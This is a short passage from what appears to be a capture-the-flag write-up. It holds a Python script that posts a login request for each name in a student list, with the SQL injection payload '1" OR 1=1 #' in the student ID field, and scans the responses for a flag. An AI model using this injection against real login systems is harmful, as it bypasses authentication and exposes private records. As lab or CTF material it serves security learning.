 ```python
    values = df.iloc[:, 0].dropna().tolist()
    return values


def send_request(student_name):
    data = {
        'name': student_name,
        'student_id': r'1" OR 1=1 #',
        "password": '1',
    }
    response = requests.post(url, data=data, proxies=proxies)
    print(
        f"[*] Sent request for student: {student_name}, Response Code: {response.status_code}, Length: {len(response.text)}")
    if "NSS" in response.text or "flag" in response.text:
        print(f"[+] Suspicious content found in response for student: {student_name}")
        print(response.text)


def main():
    students_name = get_students_list()
    for student in students_name:
        send_request(student)


if __name__ == '__main__':
    main()
```

![27-2.png](27-2.png)

![27-3.png](27-3.png)
